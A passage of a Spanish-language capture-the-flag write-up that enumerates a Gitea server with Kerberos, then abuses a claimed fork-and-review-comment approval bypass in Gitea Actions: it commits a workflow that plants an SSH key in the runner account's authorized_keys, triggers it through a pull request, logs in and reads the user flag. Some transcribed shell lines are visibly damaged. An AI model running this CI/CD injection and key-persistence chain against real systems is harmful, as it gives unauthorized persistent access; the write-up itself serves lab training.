  "http://gitea.darkzero.ext:3000/user/login?auth_with_sspi=1" \
  -o /dev/null -w "%{http_code}\n"
```

```bash
klist
```


*Figura 51. La salida registra el ticket Kerberos de la sesión.*

```bash
klist
kvno HTTP/gitea.darkzero.ext
```


*Figura 52. Se observa el ticket asociado al servicio HTTP.*

```bash
kvno HTTP/gitea.darkzero.ext
curl -s --negotiate -u : -c /tmp/gitea_cookies.txt "http://gitea.darkzero.ext:3000/user/login?auth_with_sspi=1" -o /dev/null -w "%{http_code}\n"
curl -s -L --negotiate -u : -c /tmp/gitea_cookies.txt "http://gitea.darkzero.ext:3000/user/login?auth_with_sspi=1" -o /dev/null -w "%{http_code}\n"
```


*Figura 53. La petición HTTP registra la comprobación de autenticación.*

```bash
curl -s -L --negotiate -u : -c /tmp/gitea_cookies.txt "http://gitea.darkzero.ext:3000/user/login?auth_with_sspi=1" -o /dev/null -w "%{http_code}\n"
cat /tmp/gitea_cookies.txt
```


*Figura 54. Las cookies documentan el estado de la sesión web.*

## 8. Enumeración de Gitea

La API identifica la cuenta y el repositorio privado. `python3 -m json.tool` presenta JSON con sangría. Los permisos iniciales indican lectura sin escritura ni administración.

```bash
josh@SRV01:~$ curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
  "http://gitea.darkzero.ext:3000/api/v1/user" | python3 -m json.tool
{
    "id": 6,
    "login": "darkzero-ext_josh",
    "login_name": "",
    "source_id": 0,
    "full_name": "",
    "email": "ad8a459d-f75e-46b7-92b7-4213defd890d@localhost.localdomain",
    "avatar_url": "http://gitea.darkzero.ext:3000/avatars/5f3a440ab8b9ef02507361310493654d",
    "html_url": "http://gitea.darkzero.ext:3000/darkzero-ext_josh",
    "language": "en-US",
    "is_admin": false,
    "last_login": "1969-12-31T16:00:00-08:00",
    "created": "2026-05-20T13:44:57-07:00",
    "restricted": false,
    "active": true,
    "prohibit_login": false,
    "location": "",
    "website": "",
    "description": "",
    "visibility": "public",
    "followers_count": 0,
    "following_count": 0,
    "starred_repos_count": 0,
    "username": "darkzero-ext_josh"
}
```
Found an user named `darkzero-ext_josh`
```bash
josh@SRV01:~$ curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
  "http://gitea.darkzero.ext:3000/api/v1/repos/search?limit=50" \
  | python3 -c "import sys,json; [print(r['full_name'], '| private:', r['private']) for r in json.load(sys.stdin)['data']]"
DarkZero/DarkZero-Campaigns | private: True
```
Found an private repo, this is the web app which is vulnerable to Handlebars SSTI exploited earlier.
```bash
josh@SRV01:~$ curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
  "http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns" \
  | python3 -c "import sys,json; d=json.load(sys.stdin); print('perms:', d.get('permissions')); print('default_branch:', d.get('default_branch')); print('has_actions:', d.get('has_actions'))"
perms: {'admin': False, 'push': False, 'pull': True}
default_branch: main
has_actions: True
josh@SRV01:~$ curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
  "http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/contents/.gitea/workflows" \
  | python3 -m json.tool
[
    {
        "name": "main.yml",
        "path": ".gitea/workflows/main.yml",
        "sha": "2ce5d268ecd274e85d0379ce819956a59bab95b8",
        "last_commit_sha": "0d2c697eb31acef7ec81df70d33415cd0150b116",
        "last_committer_date": "2026-05-20T22:01:19+01:00",
        "last_author_date": "2026-05-20T22:01:19+01:00",
        "type": "file",
        "size": 295,
        "encoding": null,
        "content": null,
        "target": null,
        "url": "http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/contents/.gitea/workflows/main.yml?ref=main",
        "html_url": "http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns/src/branch/main/.gitea/workflows/main.yml",
        "git_url": "http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/git/blobs/2ce5d268ecd274e85d0379ce819956a59bab95b8",
        "download_url": "http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns/raw/branch/main/.gitea/workflows/main.yml",
        "submodule_git_url": null,
        "_links": {
            "self": "http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/contents/.gitea/workflows/main.yml?ref=main",
            "git": "http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/git/blobs/2ce5d268ecd274e85d0379ce819956a59bab95b8",
            "html": "http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns/src/branch/main/.gitea/workflows/main.yml"
        }
    }
]
```
Found an `CI/CD` workflow, read what this workflow does:

```bash
curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
  "http://gitea.darkzero.ext:3000/api/v1/user" | python3 -m json.tool
```


*Figura 55. La API muestra la identidad autenticada en Gitea.*

```bash
curl -s --negotiate -u : -b /tmp/gitea_cookies.txt "http://gitea.darkzero.ext:3000/api/v1/repos/search?limit=50"
```


*Figura 56. Se identifica el repositorio privado DarkZero-Campaigns.*

```bash
curl -s --negotiate -u : -b /tmp/gitea_cookies.txt "http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/contents/.gitea/workflows" | python3 -m json.tool
```


*Figura 57. El listado permite reconocer los workflows existentes.*

### 8.1. Workflow original

El archivo CI utiliza Node.js 20 y ejecuta instalación, pruebas y compilación.

```bash
josh@SRV01:~$ curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
  "http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns/raw/branch/main/.gitea/workflows/main.yml"
# TODO : Add Tests & Deployment
name: CI
on: [push, pull_request]
jobs:
  ci:
    runs-on: ubuntu
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with: { node-version: 20, cache: npm }
      - run: npm ci
      - run: npm test
      - run: npm run build
```

## 9. Gitea Actions: registro de las pruebas

### Cadena de vulnerabilidades señalada en Gitea 1.25

> **Nota de alcance:** explicación aportada en la captura adicional; la atribución del CVE y el comportamiento interno del notifier no se han verificado independientemente.

1. **Fork bypass (CVE-2026-22555):** según la nota aportada, Josh puede crear un fork del repositorio privado en su propio espacio de nombres y abrir un pull request hacia el repositorio original. El fork hereda la configuración de Actions.
2. **Fallo del notifier de comentarios de revisión:** según la misma nota, el evento `pull_request_review_comment` omite el contexto del PR en Gitea 1.25. Esto puede provocar que se clasifique incorrectamente una ejecución procedente de un fork, eludiendo el control de aprobación y afectando al runner del repositorio original, cuyo contexto de ejecución es `svc-runner`.

**Impacto:** ruptura de la frontera de confianza entre contribuciones externas y el runner. La mitigación requiere validar el origen del PR, aplicar la aprobación de forks a todos los eventos y aislar los runners.


Se integra el registro de GITEA_part2.docx, conservando sus comandos y resultados en bloques de código. Las líneas de asignación dañadas y la pérdida de sangría en Word se mantienen como transcripción, no como script validado.

*La petición completa está transcrita en la fase 1.*


*Figura 58. La respuesta registra la creación de un fork del repositorio.*

```bash
ls /tmp/
```


*Figura 59. La terminal registra la generación de una clave durante las pruebas.*

```bash
ssh-keygen -t ed25519 -f /tmp/.runner_key -N "" -C "ci"
ls /tmp/
```


*Figura 60. Se comprueba la presencia de los archivos utilizados en la prueba.*

```bash
cat /tmp/.runner_key.pub
```


*Figura 61. Se muestra la clave pública generada en el laboratorio.*

*El workflow completo se conserva en las transcripciones de esta sección.*


*Figura 62. La captura documenta el workflow utilizado durante las pruebas de Actions.*

*Las peticiones completas se conservan en las transcripciones de esta sección.*


*Figura 63. Se registra la petición de actualización del workflow.*

*La línea completa de terminal no se distingue con suficiente claridad.*


*Figura 64. La interfaz de Gitea y la terminal documentan el estado de la prueba.*

### 9.1. Transcripción de la fase 1

```text
osh@SRV01:~$ curl -s --negotiate -u : -c /tmp/gitea_cookies.txt -b /tmp/gitea_cookies.txt \
-X POST -H "Content-Type: application/json" -d '{}' \
"http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/forks" \
| python3 -m json.tool
{
"id": 3,
"owner": {
"id": 6,
"login": "darkzero-ext_josh",
"login_name": "",
"source_id": 0,
"full_name": "",
"email": "darkzero-ext_josh@noreply.gitea.darkzero.ext",
"avatar_url": "http://gitea.darkzero.ext:3000/avatars/5f3a440ab8b9ef02507361310493654d",
"html_url": "http://gitea.darkzero.ext:3000/darkzero-ext_josh",
"language": "",
"is_admin": false,
"last_login": "0001-01-01T00:00:00Z",
"created": "2026-05-20T13:44:57-07:00",
"restricted": false,
"active": false,
"prohibit_login": false,
"location": "",
"website": "",
"description": "",
"visibility": "public",
"followers_count": 0,
"following_count": 0,
"starred_repos_count": 0,
"username": "darkzero-ext_josh"
},
"name": "DarkZero-Campaigns",
"full_name": "darkzero-ext_josh/DarkZero-Campaigns",
"description": "Dev repository for DarkZero Campaigns",
"empty": false,
"private": true,
"fork": true,
"template": false,
"parent": {
"id": 2,
"owner": {
"id": 2,
"login": "DarkZero",
"login_name": "",
"source_id": 0,
"full_name": "",
"email": "",
"avatar_url": "http://gitea.darkzero.ext:3000/avatars/6ff3a709898c448269322001d983c279",
"html_url": "http://gitea.darkzero.ext:3000/DarkZero",
"language": "",
"is_admin": false,
"last_login": "0001-01-01T00:00:00Z",
"created": "2026-05-20T13:38:40-07:00",
"restricted": false,
"active": false,
"prohibit_login": false,
"location": "",
"website": "",
"description": "",
"visibility": "private",
"followers_count": 0,
"following_count": 0,
"starred_repos_count": 0,
"username": "DarkZero"
},
"name": "DarkZero-Campaigns",
"full_name": "DarkZero/DarkZero-Campaigns",
"description": "Dev repository for DarkZero Campaigns",
"empty": false,
"private": true,
"fork": false,
"template": false,
"mirror": false,
"size": 3249,
"language": "",
"languages_url": "http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/languages",
"html_url": "http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns",
"url": "http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns",
"link": "",
"ssh_url": "svc-gitea@gitea.darkzero.ext:DarkZero/DarkZero-Campaigns.git",
"clone_url": "http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns.git",
"original_url": "",
"website": "http://dzcampaigns.htb/",
"stars_count": 0,
"forks_count": 1,
"watchers_count": 6,
"open_issues_count": 0,
"open_pr_counter": 0,
"release_counter": 0,
"default_branch": "main",
"archived": false,
"created_at": "2026-05-20T13:48:11-07:00",
"updated_at": "2026-05-20T14:01:40-07:00",
"archived_at": "1969-12-31T16:00:00-08:00",
"permissions": {
"admin": true,
"push": true,
"pull": true
},
"has_code": false,
"has_issues": true,
"internal_tracker": {
"enable_time_tracker": true,
"allow_only_contributors_to_track_time": true,
"enable_issue_dependencies": true
},
"has_wiki": true,
"has_pull_requests": true,
"has_projects": true,
"projects_mode": "all",
"has_releases": true,
"has_packages": true,
"has_actions": true,
"ignore_whitespace_conflicts": false,
"allow_merge_commits": true,
"allow_rebase": true,
"allow_rebase_explicit": true,
"allow_squash_merge": true,
"allow_fast_forward_only_merge": true,
"allow_rebase_update": true,
"allow_manual_merge": false,
"autodetect_manual_merge": false,
"default_delete_branch_after_merge": false,
"default_merge_style": "merge",
"default_allow_maintainer_edit": false,
"avatar_url": "",
"internal": false,
"mirror_interval": "",
"object_format_name": "sha1",
"mirror_updated": "0001-01-01T00:00:00Z",
"topics": [],
"licenses": []
},
"mirror": false,
"size": 0,
"language": "",
"languages_url": "http://gitea.darkzero.ext:3000/api/v1/repos/darkzero-ext_josh/DarkZero-Campaigns/languages",
"html_url": "http://gitea.darkzero.ext:3000/darkzero-ext_josh/DarkZero-Campaigns",
"url": "http://gitea.darkzero.ext:3000/api/v1/repos/darkzero-ext_josh/DarkZero-Campaigns",
"link": "",
"ssh_url": "svc-gitea@gitea.darkzero.ext:darkzero-ext_josh/DarkZero-Campaigns.git",
"clone_url": "http://gitea.darkzero.ext:3000/darkzero-ext_josh/DarkZero-Campaigns.git",
"original_url": "",
"website": "",
"stars_count": 0,
"forks_count": 0,
"watchers_count": 0,
"open_issues_count": 0,
"open_pr_counter": 0,
"release_counter": 0,
"default_branch": "main",
"archived": false,
"created_at": "2026-11-22T07:30:15-08:00",
"updated_at": "2026-11-22T07:30:17-08:00",
"archived_at": "1969-12-31T16:00:00-08:00",
"permissions": {
"admin": true,
"push": true,
"pull": true
},
"has_code": false,
"has_issues": false,
"has_wiki": false,
"has_pull_requests": true,
"has_projects": false,
"projects_mode": "all",
"has_releases": false,
"has_packages": false,
"has_actions": false,
"ignore_whitespace_conflicts": false,
"allow_merge_commits": true,
"allow_rebase": true,
"allow_rebase_explicit": true,
"allow_squash_merge": true,
"allow_fast_forward_only_merge": true,
"allow_rebase_update": true,
"allow_manual_merge": false,
"autodetect_manual_merge": false,
"default_delete_branch_after_merge": false,
"default_merge_style": "merge",
"default_allow_maintainer_edit": false,
"avatar_url": "",
"internal": false,
"mirror_interval": "",
"object_format_name": "sha1",
"mirror_updated": "0001-01-01T00:00:00Z",
"topics": [],
"licenses": []
}
```

### 9.2. Transcripción de la fase 2

```text
josh@SRV01:~$ cat << 'EOF' > /tmp/foothold.yml
name: foothold
on:
pull_request_review_comment:
types: [created]

jobs:
foothold:
runs-on: ubuntu
steps:
name: persist
run: |
install -d -m 700 /home/svc-runner/.ssh
cat /tmp/.runner_key.pub >> /home/svc-runner/.ssh/authorized_keys
chmod 600 /home/svc-runner/.ssh/authorized_keys
EOF
josh@SRV01:~$ B64=$(base64 -w0 /tmp/foothold.yml)
SHA_FILE=$(curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
"http://gitea.darkzero.ext:3000/api/v1/repos/darkzero-ext_josh/DarkZero-Campaigns/contents/.gitea%2Fworkflows%2Ffoothold.yml?ref=main" \
| python3 -c "import sys,json; print(json.load(sys.stdin).get('sha',''))")

if [ -n "$SHA_FILE" ]; then
curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
-X PUT -H "Content-Type: application/json" \
-d "{\"content\":\"$B64\",\"message\":\"add foothold workflow\",\"sha\":\"$SHA_FILE\"}" \
"http://gitea.darkzero.ext:3000/api/v1/repos/darkzero-ext_josh/DarkZero-Campaigns/contents/.gitea%2Fworkflows%2Ffoothold.yml" \
| python3 -c "import sys,json; d=json.load(sys.stdin); print('commit:', d.get('commit',{}).get('sha',''))"
else
curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
-X POST -H "Content-Type: application/json" \
-d "{\"content\":\"$B64\",\"message\":\"add foothold workflow\"}" \
"http://gitea.darkzero.ext:3000/api/v1/repos/darkzero-ext_josh/DarkZero-Campaigns/contents/.gitea%2Fworkflows%2Ffoothold.yml" \
| python3 -c "import sys,json; d=json.load(sys.stdin); print('commit:', d.get('commit',{}).get('sha',''))"
fi
commit: a25f5effd849a547cb6623ddc8c9e4e42d2947b2
josh@SRV01:~$ CONTENT_B64=$(base64 -w0 /tmp/foothold.yml)

curl -s --negotiate -u : -X POST \
-H "Content-Type: application/json" \
-d "{\"content\":\"$CONTENT_B64\",\"message\":\"add ci\"}" \
"http://gitea.darkzero.ext:3000/api/v1/repos/darkzero-ext_josh/DarkZero-Campaigns/contents/.gitea%2Fworkflows%2Ffoothold.yml"
{"message":"repository file already exists [path: .gitea/workflows/foothold.yml]","url":"http://gitea.darkzero.ext:3000/api/swagger"}
```

### 9.3. Transcripción de la fase 3

```text
josh@SRV01:~$ PR_RESPONSE=$(curl -s --negotiate -u : -X POST \
-H "Content-Type: application/json" \
-d '{"title":"CI Update","body":"trigger","head":"darkzero-ext_josh:main","base":"main"}' \
"http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/pulls")

PR_NUMBER=PR_RESPONSE" | jq -r '.number')
HEAD_SHA=PR_RESPONSE" | jq -r '.head.sha')
echo "PR #HEAD_SHA"

PR #1 HEAD=a25f5effd849a547cb6623ddc8c9e4e42d2947b2
josh@SRV01:~$
josh@SRV01:~$ curl -s --negotiate -u : -X POST \
-H "Content-Type: application/json" \
-d "{\"event\":\"COMMENT\",\"body\":\"trigger\",\"commit_id\":\"$HEAD_SHA\"}" \
"http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/pulls/$PR_NUMBER/reviews"
{"id":1,"user":{"id":6,"login":"darkzero-ext_josh","login_name":"","source_id":0,"full_name":"","email":"ad8a459d-f75e-46b7-92b7-4213defd890d@localhost.localdomain","avatar_url":"http://gitea.darkzero.ext:3000/avatars/5f3a440ab8b9ef02507361310493654d","html_url":"http://gitea.darkzero.ext:3000/darkzero-ext_josh","language":"en-US","is_admin":false,"last_login":"1969-12-31T16:00:00-08:00","created":"2026-05-20T13:44:57-07:00","restricted":false,"active":true,"prohibit_login":false,"location":"","website":"","description":"","visibility":"public","followers_count":0,"following_count":0,"starred_repos_count":0,"username":"darkzero-ext_josh"},"team":null,"state":"COMMENT","body":"trigger","commit_id":"a25f5effd849a547cb6623ddc8c9e4e42d2947b2","stale":false,"official":false,"dismissed":false,"comments_count":0,"submitted_at":"2026-11-22T07:34:04-08:00","updated_at":"2026-11-22T07:34:04-08:00","html_url":"http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns/pulls/1#issuecomment-2","pull_request_url":"http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns/pulls/1"}
```

### 9.4. Transcripción de la fase 4

```text
josh@SRV01:~$ curl -s --negotiate -u : \
"http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/actions/tasks" | jq .
{
"workflow_runs": [
{
"id": 2,
"name": "foothold",
"head_branch": "a25f5effd849a547cb6623ddc8c9e4e42d2947b2",
"head_sha": "a25f5effd849a547cb6623ddc8c9e4e42d2947b2",
"run_number": 3,
"event": "pull_request_review_comment",
"display_title": "add foothold workflow",
"status": "failure",
"workflow_id": "foothold.yml",
"url": "http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns/actions/runs/3",
"created_at": "2026-11-22T07:34:08-08:00",
"updated_at": "2026-11-22T07:34:09-08:00",
"run_started_at": "2026-11-22T07:34:08-08:00"
},
{
"id": 1,
"name": "ci",
"head_branch": "main",
"head_sha": "0d2c697eb31acef7ec81df70d33415cd0150b116",
"run_number": 1,
"event": "push",
"display_title": "Add main.yml",
"status": "failure",
"workflow_id": "main.yml",
"url": "http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns/actions/runs/1",
"created_at": "2026-05-20T16:33:25-07:00",
"updated_at": "2026-05-20T16:36:55-07:00",
"run_started_at": "2026-05-20T16:33:25-07:00"
}
],
"total_count": 2
}
josh@SRV01:~$ curl -s --negotiate -u : \
"http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/actions/tasks" | jq .
{
"workflow_runs": [
{
"id": 2,
"name": "foothold",
"head_branch": "a25f5effd849a547cb6623ddc8c9e4e42d2947b2",
"head_sha": "a25f5effd849a547cb6623ddc8c9e4e42d2947b2",
"run_number": 3,
"event": "pull_request_review_comment",
"display_title": "add foothold workflow",
"status": "failure",
"workflow_id": "foothold.yml",
"url": "http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns/actions/runs/3",
"created_at": "2026-11-22T07:34:08-08:00",
"updated_at": "2026-11-22T07:34:09-08:00",
"run_started_at": "2026-11-22T07:34:08-08:00"
},
{
"id": 1,
"name": "ci",
"head_branch": "main",
"head_sha": "0d2c697eb31acef7ec81df70d33415cd0150b116",
"run_number": 1,
"event": "push",
"display_title": "Add main.yml",
"status": "failure",
"workflow_id": "main.yml",
"url": "http://gitea.darkzero.ext:3000/DarkZero/DarkZero-Campaigns/actions/runs/1",
"created_at": "2026-05-20T16:33:25-07:00",
"updated_at": "2026-05-20T16:36:55-07:00",
"run_started_at": "2026-05-20T16:33:25-07:00"
}
],
"total_count": 2
}
```

### 9.5. Transcripción de la fase 5

```text
josh@SRV01:~$ cat /tmp/foothold.yml
ls -la /tmp/.runner_key.pub ~/.ssh/id_*.pub 2>/dev/null || true
name: foothold
on:
pull_request_review_comment:
types: [created]

jobs:
foothold:
runs-on: ubuntu
steps:
name: persist
run: |
install -d -m 700 /home/svc-runner/.ssh
cat /tmp/.runner_key.pub >> /home/svc-runner/.ssh/authorized_keys
chmod 600 /home/svc-runner/.ssh/authorized_keys
josh@SRV01:~$ ssh-keygen -t ed25519 -N "" -f ~/.ssh/id_foothold
cat ~/.ssh/id_foothold.pub
Generating public/private ed25519 key pair.
Your identification has been saved in /home/josh/.ssh/id_foothold
Your public key has been saved in /home/josh/.ssh/id_foothold.pub
The key fingerprint is:
SHA256:AeIy65bIe7oG4sP1v+gBo/5R4kychSi6y0WPy8F/UeQ josh@SRV01
The key's randomart image is:
+--[ED25519 256]--+
| . . |
| .... . . |
|..o... + |
|o .+o E |
|. .O . S |
|++BoB . |
|Bo=O.o . |
|oB+.=.o. |
|o**+.+oo. |
+----[SHA256]-----+
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGzODaCziEaJZkqXA8he4LmrdG8kaZUiexpWmxCz0lA5 josh@SRV01
```

### 9.6. Transcripción de la fase 6

```text
josh@SRV01:~$ PUBKEY=$(cat ~/.ssh/id_foothold.pub)
cat << EOF > /tmp/foothold.yml
name: foothold
on:
pull_request_review_comment:
types: [created]

jobs:
foothold:
runs-on: ubuntu
steps:
name: persist
run: |
install -d -m 700 /home/svc-runner/.ssh
echo "$PUBKEY" >> /home/svc-runner/.ssh/authorized_keys
chmod 600 /home/svc-runner/.ssh/authorized_keys
EOF
josh@SRV01:~$ CONTENT_B64=$(base64 -w0 /tmp/foothold.yml)
SHA_FILE=$(curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
"http://gitea.darkzero.ext:3000/api/v1/repos/darkzero-ext_josh/DarkZero-Campaigns/contents/.gitea%2Fworkflows%2Ffoothold.yml" \
| jq -r '.sha // empty')

if [ -n "$SHA_FILE" ]; then
curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
-X PUT -H "Content-Type: application/json" \
-d "{\"content\":\"$CONTENT_B64\",\"message\":\"update foothold key\",\"sha\":\"$SHA_FILE\"}" \
"http://gitea.darkzero.ext:3000/api/v1/repos/darkzero-ext_josh/DarkZero-Campaigns/contents/.gitea%2Fworkflows%2Ffoothold.yml" | jq -r '.commit.sha // .'
else
curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
-X POST -H "Content-Type: application/json" \
-d "{\"content\":\"$CONTENT_B64\",\"message\":\"add foothold workflow\"}" \
"http://gitea.darkzero.ext:3000/api/v1/repos/darkzero-ext_josh/DarkZero-Campaigns/contents/.gitea%2Fworkflows%2Ffoothold.yml" | jq -r '.commit.sha // .'
fi
25bf5cb5a57feb4ada2230e195a63956d6325844
josh@SRV01:~$ PR_NUMBER=$(curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
"http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/pulls?state=open" \
| jq -r '.[0].number // empty')

if [ -z "$PR_NUMBER" ]; then
PR_RESPONSE=$(curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
-X POST -H "Content-Type: application/json" \
-d '{"title":"CI Update","body":"trigger","head":"darkzero-ext_josh:main","base":"main"}' \
"http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/pulls")
PR_NUMBER=PR_RESPONSE" | jq -r '.number')
HEAD_SHA=PR_RESPONSE" | jq -r '.head.sha')
else
HEAD_SHA=$(curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
"http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/pulls/$PR_NUMBER" \
| jq -r '.head.sha')
fi

echo "PR #HEAD_SHA"
curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
-X POST -H "Content-Type: application/json" \
-d "{\"event\":\"COMMENT\",\"body\":\"trigger\",\"commit_id\":\"$HEAD_SHA\"}" \
"http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/pulls/$PR_NUMBER/reviews" | jq -r '.id // .'
PR #1 HEAD=25bf5cb5a57feb4ada2230e195a63956d6325844
2
```

### 9.7. Transcripción de la fase 7

```text
josh@SRV01:~$ sleep 4
curl -s --negotiate -u : -b /tmp/gitea_cookies.txt \
"http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/actions/tasks" \
| jq '.workflow_runs[0] | {run_number, event, status, head_sha}'
{
"run_number": 4,
"event": "pull_request_review_comment",
"status": "success",
"head_sha": "25bf5cb5a57feb4ada2230e195a63956d6325844"
}
```

### 9.8. Transcripción de la fase 8

```text
josh@SRV01:~$ ssh -i ~/.ssh/id_foothold -o StrictHostKeyChecking=no svc-runner@127.0.0.1
Warning: Permanently added '127.0.0.1' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-136-generic x86_64)


Documentation: https://help.ubuntu.com
Management: https://landscape.canonical.com
Support: https://ubuntu.com/pro

System information as of Sun Nov 22 03:40:21 PM UTC 2026

System load: 0.0 Processes: 150
Usage of /: 47.4% of 10.66GB Users logged in: 1
Memory usage: 63% IPv4 address for eth0: 172.16.20.3
Swap usage: 0%


Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
just raised the bar for easy, resilient and secure K8s cluster deployment.

https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

5 updates can be applied immediately.
5 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Jul 23 12:34:02 2026 from 172.16.20.1
svc-runner@SRV01:~$ ls
user.txt
svc-runner@SRV01:~$ cat user.txt
7738deef453e3734978b75182f8ccf06
svc-runner@SRV01:~$
```

### Interpretación de la API y resultados

| Elemento | Significado |
|---|---|
| `POST` | Solicitud de creación de un recurso |
| `PUT` | Actualización de un recurso existente |
| `Content-Type: application/json` | Formato del cuerpo HTTP |
| `-d` | Cuerpo enviado por curl |
| `sha` | Identificador de versión del archivo |
| `head` / `base` | Rama de origen y destino del PR |
| `jq` | Selección y presentación de campos JSON |
| `run_number` | Número de ejecución |
| `status` | Estado informado por Actions |

El primer registro de ejecución indica `failure` (run 3); el segundo indica `success` (run 4). El documento registra posteriormente una sesión como `svc-runner`. No se dispone de logs completos del runner para atribuir con certeza la causa exacta del primer fallo.

## 10. User flag

La captura final confirma la presencia de `user.txt` en la sesión de `svc-runner`.

```bash
ls
cat user.txt
```


```bash
ls
cat user.txt
```


*Figura 65. La captura registra la lectura de user.txt desde el contexto svc-runner.*

## 11. Conclusiones

Los principales riesgos observados son la evaluación de plantillas controladas por usuarios, la exposición de secretos de aplicación y la ejecución de workflows procedentes de contribuciones no confiables. Las medidas de mitigación incluyen validar estrictamente los tipos de entrada, actualizar dependencias, proteger secretos, aislar runners y exigir aprobación para workflows de forks.

**Alcance:** user flag confirmada. La sección root del texto de referencia no aporta un procedimiento completo.

